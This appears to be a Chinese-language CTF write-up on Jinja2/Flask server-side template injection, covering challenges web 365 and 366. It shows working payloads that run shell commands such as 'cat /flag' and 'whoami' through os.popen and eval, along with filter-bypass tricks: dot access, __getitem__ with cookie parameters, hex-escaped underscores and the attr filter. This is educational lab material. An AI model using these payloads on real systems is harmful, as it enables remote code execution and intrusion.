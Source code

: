 ### os

```python
a=os&b=popen&c=cat /flag&name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}
```

## web 365(过滤中括号[])

:::info

1. **点绕过：**对于globals中的属性可以用`.`代替中括号访问

即：`url_for.__globals__.os`

2. **getitem绕过：**对于元组来说，可以用getitem(位置）进行访问，getitem还可以直接获取元素
   :::

```python
?name={{x.__init__.__globals__.__getitem__(request.cookies.x1).eval(request.cookies.x2)}}

Cookie传参：x2=__import__('os').popen('cat /f*').read();x1=__builtins__
```

## web 366(过滤下划线_)

### 方法1：16进制编码

:::info

- 该方法需要在每组外加中括号[]，所以当过滤`[]或"`时，不能用这种方法
- 可以只对下划线编码，也可以对class这种也编码
  :::
  ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676031008980-d746d958-9335-4b4e-a040-8ae25f1d2139.png#averageHue=%23f9f9f8&clientId=u0c8a6e56-873f-4&from=paste&height=227&id=ua3481a6f&originHeight=454&originWidth=1974&originalType=binary&ratio=2&rotation=0&showTitle=false&size=70361&status=done&style=none&taskId=u3f2cc343-56dd-4c5b-ae81-cfd27fc7ae2&title=&width=987)

```python
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[376]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['popen']('whoami')['read']()}}
```

- 第一个的`()`也可以换成`""`

### 方法2：attr+request

[SSTI模板注入绕过（进阶篇）_yu22x的博客-CSDN博客_ssti 关键词绕过](https://blog.csdn.net/miuzzx/article/details/110220425)

- 它是一种过滤器，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数
  :::info
  Get an attribute of an object. `foo|attr("bar")` works like foo.bar just that always an attribute is returned and items are not looked up.
  :::

```python
""|attr("__class__")
相当于
"".__class__

```
